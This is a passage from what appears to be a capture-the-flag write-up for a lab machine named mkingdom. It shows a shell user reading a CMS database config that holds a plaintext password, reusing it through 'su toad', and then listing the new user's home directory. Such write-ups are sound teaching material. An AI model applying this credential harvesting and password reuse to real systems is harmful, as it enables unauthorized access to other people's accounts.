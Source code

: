 ## www to Toad

We can find application config files :

```bash
www-data@mkingdom:/var/www/html/app/castle/application/config$ ls
app.php  database.php  doctrine  generated_overrides
www-data@mkingdom:/var/www/html/app/castle/application/config$ cat database.php
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];

```

Now we can try password reuse : `su toad` , and we get toad shell.
## Toad to Mario

We check in toad home for something :

```bash
oad@mkingdom:/home$ cd toad
toad@mkingdom:~$ ls
Desktop    Downloads  Pictures  smb.txt    Videos
Documents  Music      Public    Templates
toad@mkingdom:~$ ls -la
total 100
drwxrwx--- 16 toad toad 4096 Jan 29  2024 .
drwxr-xr-x  4 root root 4096 Jun  9  2023 ..
lrwxrwxrwx  1 root root    9 Nov 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 toad toad  220 Jun  8  2023 .bash_logout
-rw-r--r--  1 toad toad 3693 Nov 25  2023 .bashrc
drwx------ 11 toad toad 4096 Nov 28  2023 .cache
drwx------  3 toad toad 4096 Nov 26  2023 .compiz
drwx------ 14 toad toad 4096 Nov 26  2023 .config
drwxr-xr-x  2 toad toad 4096 Nov 26  2023 Desktop
drwxr-xr-x  2 toad toad 4096 Nov 26  2023 Documents
drwxr-xr-x  2 toad toad 4096 Nov 26  2023 Downloads
drwx------  3 toad toad 4096 Dec 10  2023 .gconf
-rw-------  1 toad toad 1710 Dec 10  2023 .ICEauthority
drwx------  3 toad toad 4096 Nov 26  2023 .local
drwxr-xr-x  2 toad toad 4096 Nov 26  2023 Music
-rw-rw-r--  1 toad toad  637 Jan 29  2024 .mysql_history
drwxr-xr-x  2 toad toad 4096 Nov 26  2023 Pictures
-rw-r--r--  1 toad toad  675 Jun  8  2023 .profile
drwxr-xr-x  2 toad toad 4096 Nov 26  2023 Public
-rw-r--r--  1 toad toad  914 Nov 25  2023 smb.txt
drwxrwx---  2 toad toad 4096 Nov 27  2023 .ssh
drwxr-xr-x  2 toad toad 4096 Nov 26  2023 Templates
drwxr-xr-x  2 toad toad 4096 Nov 26  2023 Videos
-rw-------  1 toad toad   57 Dec 10  2023 .Xauthority
-rw-------  1 toad toad 1676 Dec 10  2023 .xsession-errors
```